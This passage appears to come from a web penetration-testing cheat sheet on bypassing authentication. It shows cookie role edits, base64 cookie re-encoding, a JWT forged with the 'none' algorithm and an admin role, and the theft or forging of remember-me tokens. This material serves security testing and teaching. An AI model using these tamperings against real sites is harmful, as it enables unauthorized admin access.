 #### Cookie Manipulation

```
# Original cookie
Cookie: authenticated=no; role=user

# Modified cookie
Cookie: authenticated=yes; role=admin
```

#### Base64-Encoded Cookies

```
# Decode
echo "YWRtaW46ZmFsc2U=" | base64 -d
# Result: admin:false

# Modify and encode
echo "admin:true" | base64
# Result: YWRtaW46dHJ1ZQo=
```

#### JWT Token Tampering

```
# Original JWT
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJyb2xlIjoidXNlciJ9.dz2RcSF50MH9zUKQQrfDzNTsXyYcIV7NB8diOFNKYGE

# Decoded payload
{
  "username": "user",
  "role": "user"
}

# Modified payload (change role to admin, use "none" algorithm)
{
  "alg": "none",
  "typ": "JWT"
}.{
  "username": "user",
  "role": "admin"
}.
```

#### Using "Remember Me" Functionality

```
# Check for remember-me cookies/tokens that can be stolen or forged
Cookie: rememberme=true; auth_token=a1b2c3d4e5f6g7h8i9j0
```

### 7. Password Reset Flaws
